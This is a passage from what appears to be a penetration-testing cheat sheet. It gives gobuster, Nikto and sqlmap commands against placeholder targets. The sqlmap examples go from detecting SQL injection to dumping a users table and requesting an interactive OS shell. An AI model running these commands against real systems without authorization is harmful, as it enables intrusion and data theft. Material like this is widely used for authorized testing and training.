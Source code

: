     # Bruteforce with File Extensions (PHP, TXT, BAK)
    gobuster dir -u http://192.168.1.50 -w wordlist.txt -x php,txt,bak,old

    # Subdomain Enumeration (if you have a domain name)
    gobuster dns -d example.com -w /usr/share/wordlists/SecLists/subdomains.txt
    ```

---

### **2. Vulnerability Assessment & Exploitation**

#### **Nikto**
*   **Purpose:** Quick web server vulnerability scanner.
*   **Critical Flags:**
    ```bash
    nikto -h http://192.168.1.50
    # That's often all you need. It runs a default battery of tests.
    ```

#### **SQLMap (SQL Injection)**
*   **Purpose:** Automate detection and exploitation of SQLi.
*   **Critical Flags:**
    ```bash
    # Test a URL parameter
    sqlmap -u "http://site.com/page?id=1" --batch

    # Fetch database names
    sqlmap -u "http://site.com/page?id=1" --dbs

    # Fetch tables from a specific database
    sqlmap -u "http://site.com/page?id=1" -D database_name --tables

    # Dump data from a specific table
    sqlmap -u "http://site.com/page?id=1" -D database_name -T users --dump

    # Attempt to get an interactive OS shell (if DBA privileges)
    sqlmap -u "http://site.com/page?id=1" --os-shell
    ```

